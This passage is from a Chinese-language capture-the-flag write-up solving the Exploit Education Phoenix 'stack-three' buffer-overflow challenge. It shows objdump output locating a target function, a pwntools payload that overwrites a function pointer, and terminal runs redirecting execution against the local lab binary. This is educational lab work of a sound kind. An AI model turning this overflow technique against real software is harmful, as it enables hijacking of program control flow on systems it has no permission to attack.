 *   ***Objectdump:** 这是一个 Linux 命令行实用程序，用于显示关于 Linux 目标文件的信息。我们可以使用它的反汇编功能来显示 **complete_level()** 函数的汇编代码和内存位置:*

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ objdump -d /opt/phoenix/amd64/stack-three
000000000040069d <complete_level>:
  40069d:	55                   	push   %rbp
  40069e:	48 89 e5             	mov    %rsp,%rbp
  4006a1:	bf 90 07 40 00       	mov    $0x400790,%edi
  4006a6:	e8 45 fe ff ff       	call   4004f0 <puts@plt>
  4006ab:	bf 00 00 00 00       	mov    $0x0,%edi
  4006b0:	e8 5b fe ff ff       	call   400510 <exit@plt>*
```

*这两种方法为我们提供了相同的信息: **complete_level()** 函数从 **0x40069d 开始。***

*这个漏洞利用过程将会很快，因为*堆栈三*基本上与*堆栈零*挑战相同。[那些不熟悉[我的 Stack Zero challenge 解决方案](https://secnate.github.io/ctf/phoenix/phoenix-stack-zero/)的人可能想回顾一下这个过程的详细历史背景]*

*是时候利用这个漏洞了。 *exploit.py* 文件第 14 行的有效负载是*

```
*payload = cyclic(64) + p64(0xdeadbeef)*
```

*它在 *exploit.py* 文件的第 24 行被传递到 stack-three 程序的执行中*

```
*p.sendline(payload)*
```

*好的，我创建了一个基本的漏洞，并通过命令行输入把它传了进来。下一步是测试 **0xdeadbeef** 是否用方便包含的打印输出完全覆盖了 **fp** 变量:*

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ ./exploit.py
Launching The Stack Three Exploit!
[!] Could not find executable 'stack-three' in $PATH, using '/opt/phoenix/amd64/stack-three' instead
[+] Starting local process '/opt/phoenix/amd64/stack-three': pid 6348
[*] Switching to interactive mode
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0xdeadbeef
[*] Got EOF while reading in interactive
$*
```

*确实如此。最后一步是用 **0x40069d** 替换有效载荷的 0xdeadbeef 值:*

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ ./exploit.py
Launching The Stack Three Exploit!
[!] Could not find executable 'stack-three' in $PATH, using '/opt/phoenix/amd64/stack-three' instead
[+] Starting local process '/opt/phoenix/amd64/stack-three': pid 8404
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-three' stopped with exit code 0 (pid 8404)
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
[*] Got EOF while reading in interactive
$*
```
